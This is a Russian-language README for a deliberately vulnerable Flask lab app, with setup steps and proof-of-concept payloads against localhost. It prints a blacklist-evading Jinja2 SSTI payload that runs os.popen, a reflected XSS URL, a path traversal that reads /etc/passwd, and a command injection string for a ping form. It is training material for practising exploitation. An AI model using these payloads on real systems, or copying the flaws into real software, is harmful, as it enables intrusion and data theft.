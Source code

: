 # vuln-app
#Уязвимая версия приложения

### Инструкция по сборке и запуску приложения

> - git clone "текущий репозиторий"
> - cd app
> - python __init__.py
> - flask приложение будет запущено по адресу http://127.0.0.1:8089

![image](https://github.com/medarov411/vuln-app/assets/60567375/302c807a-5503-411e-a291-bbe552f247ec)



### Proof of Concept

SSTI:

> url - http://127.0.0.1:8089/contact. Контактная форма, с одним полем ввода.

> Настроил блеклист для ssti, чтоб пейлоад был поинтересней. blacklist = [".","[","]","_","join","init","flag"]

> Конечный пейлоад: {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/0635d79b-576c-4515-8675-169c49209763)

<p>&nbsp;</p>

XSS(reflected):
> xss эксплуатируется там же, где и ssti - http://127.0.0.1:8089/contact

> http://127.0.0.1:8089/contact?email=<script>alert(1)</script>

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/0b6d6749-0813-4635-aaf4-69384d24f5f8)

<p>&nbsp;</p>

Path Traversal:
> кнопка Read Policy на главной странице "http://127.0.0.1:8089/" ведет на url "http://127.0.0.1:8089/view_file?filename=15020.pdf"

> пейлоад:http://127.0.0.1:8089/view_file?filename=../../../../../etc/passwd

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/2b8cf974-f629-443f-b30c-5925e08defb1)

<p>&nbsp;</p>

OS Command injection:
> на сайте реализовано подобие ping сервиса. Url - http://127.0.0.1:8089/ping

>пейлоад: 127.0.0.1;ls

>![image](https://github.com/medarov411/vuln-app/assets/60567375/303665c2-83d6-41ba-8fd2-5706ad0efa01)


### Дополнительные комментарии
> От себя решил добавить SSTI с фильтрацией, все таки это flask. Не добавить в него ssti, было бы неуважительно :)


